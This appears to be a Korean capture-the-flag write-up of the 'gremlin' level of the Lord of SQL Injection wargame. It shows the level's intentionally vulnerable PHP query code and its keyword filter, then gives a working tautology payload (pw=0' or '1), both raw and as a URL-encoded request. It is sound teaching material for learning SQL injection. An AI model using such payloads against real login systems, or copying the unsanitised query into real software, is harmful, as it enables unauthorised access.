 # **LOS gramlin**

## <img src="./img/key.png" width="25"> **Keys**
>php source
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
`admin` 으로 `login` 하는 문제이다. 따라서 `id` 에는 `admin` 을 넣고 `pw` 부분을 참으로 만들면 된다.  
`id = admin` , `pw = 0 or 1`
## <img src="./img/road.png" width="25"> **Query**
>Query
```php
select id from prob_gremlin where id='admin' and pw='0' or '1'
```

>Input value
```
http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=admin&pw=0%27%20or%20%271
```
`%27` 은 `'` 이고, `%20` 은 `(스페이스)` 이다.
## <img src="./img/attack.png" width="25"> **Attack**
<img src="./img/gremlin1.png" width="700">